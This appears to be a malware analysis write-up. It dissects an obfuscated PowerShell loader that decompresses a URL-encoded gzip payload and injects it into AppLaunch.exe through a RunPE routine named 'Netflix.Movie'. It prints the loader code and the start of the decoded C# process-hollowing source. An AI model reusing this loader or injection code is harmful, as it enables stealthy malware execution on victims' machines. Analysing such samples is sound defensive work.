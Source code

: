 ``` powershell
[Byte[]] $Bytes = [System.Web.HttpUtility]::UrlDecodeToBytes('%1f%8b%08%00%00%00%00%00%04%00%d4%bdy%7c%1b%c5%d98%be%da%5d%edJ%2b%c9%f6J%f6%cavl%cb9l%16%c9Nb%3b%04%27!%07%e1%2cGI%a0%80%1d%8e%84%04hc+K%a5%d0R%14%1bC%0b%b4%14%02%a1%1cm%b8%c3U%8er%96%b3%5c-P%ca%d5%8aP%0am%89%a1-%a5%27%ed%db%83%b6%94%e2%7c%9f%e7%99%99%9d%95%2c%13%d2%f7%fd%fd%f1%cb%27%d6%ce%f3%3c3%cf%3c%f3%3cs%3cs%ec%ec%c1%2b.V4EQt%f8%db%be%5dQ%1eR%d8%bf%25%ca%8e%ff%8d%c2_M%e6%91%1a%e5%db%d1%97%a6%3e%14%3a%e8%a5%a9%9f%fa%cc%daB%fb%a9y%ef%d3%f9%e3Ni_s%dc%bau%de%fa%f6%d5%27%b4%e7O%5b%d7%bev%5d%fb%de%87%1c%d6%7e%8aw%fc%093%13%09k%06%e7%b1l%1fE9(%a4)%bb%e8%7b%9f+%f8%be%a5%a8%a1X(%a2(%ab%c3%8a%12g%b8%1f%9e%05%e1v%11c%09%0b%abLnE%91O%e5%ad0%e1%15%22%2f9GQ%ea%e8%bf%7c%fa%0fV%06%e0%7b+%06%ae%83tV%95B%3e%19%16%22%ec%dc%3f%90%2f%12%00%23%00%ef%1f%80g%ae%3f%e1%f4%f5%f0%fc%f1q%bc%5c%ab%a5%dc%01%16%abf%e6%0b%f95%08X%01%19%8f%0f%97%c5%5b%02%ffg%e6O8%d9%5b%c3%d5%f5%24%e7%b5nB%bc%a5%95b%de%7d%16%8b%83%b2%a9JX%a9%bb%3e%a4%9c%fa%96Fu%22%a4(%c6UW%86%94%fd%c3%95%a9%26%ff%97%9a%ad1%7d%c2%3f%17%18X%8e%0b%92X.%f0%b3%ea%c7%0dx%18%05%b0%95%e5aQ%5c%1b%c0%aeF7%8c%0f%db%5d%10V%8cnk%04R%e9%de%12%08%bb%10%d1%c0%e4FVY7%82%c6%ee6%5d%13%d2u%19.%e8%d6%ca%3an%14%1f%98%e7B%26%af%ady%16F%98%e3%d6%1a%8aa%19n%0c%a1P%b6%00z%b1%3a%d2%5e%82%3dj%f0ax%b5(%03%d4%06%ab%93%e7%82%f2%87%94O%0a%f9%b7%02%8f%91%98%a6%e8%5d%16%3d%3cP%8e1%f2%0b%85%10%f8%f0%1e%40%04J%d6%d5L%0f%0fJd%b1P%12K%3c%8aA7d%10%f3)+%e7%ba%10%99%c6%1e%89%22!%0d%84%c2%19%c0%c3%1aI!%ac%00%dcUox_%00Tw%7c%24%828*%81%eadG+%a0%8f%c4%11%f5%3f%3a%e4Z%83%60%ad%1f%c3%cc%03%e7Ss%b5%84%ca%83%9eOuS(K%1d%c6%c0%90%5b%8f%3f%9f%85%1c%dc!%fcY%87%3fq%f8%e9%1c%b1%b1%00%f5%0cs*%fe4%40%d4y%0f%a0%0a%0cTA%12%e9%09%f7C%b4%8f%91v%0b%88%a34%e9%91%06%7c%d4Q%d2F%d7%81dcZ%e7%98%c2%a8sF%a6%e0%a3%5bJ%d9%3d%95%f1OC%b8%d0%88F%f0%9a%e0%b7q%95%d7%ec%27u0%cd%ec%11%b0%bd%de%d1%9d%ee%1c%81%a2%e8%e3F%04%2b%ce%14L1%8a%94B%0b3d%2bV%a56%f81%0a%8bA%baQ%ac%3b%e9%2c)%[Truncated]')
$Bytes = Decompress($Bytes)
try
{
[String] $MyPt = [System.IO.Path]::Combine([System.Runtime.InteropServices.RuntimeEnvironment]::GetRuntimeDirectory(),"AppLaunch.exe")
[Object[]] $Params=@($MyPt.Replace("Framework64","Framework") ,$Bytes)
return $T.GetMethod($MT).Invoke($null, $Params)
} catch { }
}
INSTALL
[System.Threading.Thread]::Sleep(1000)
CodeDom $RUNPE "Netflix.Movie" "Run"
```

The first interesting string appears to be byte code for a portable executable. 

The second appears to create a VBS script.

There's then a function referencing decompression, which appears to be Gzip.

The next interesting string is a very long URL-encoded byte array.

I'm going to start with the first byte array, which can be decoded and extracted simply by using a From Decimal and Gunzip operator.

This will reveal the following:

``` powershell
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace Netflix
{
    public class Movie
    {
        #region "Structs"
        [StructLayout(LayoutKind.Sequential, Pack = 0x1)]
        private struct ProcessInformation
        {
            public readonly IntPtr ProcessHandle;
            public readonly IntPtr ThreadHandle;
            public readonly uint ProcessId;
            private readonly uint ThreadId;
        }
        [StructLayout(LayoutKind.Sequential, Pack = 0x1)]
```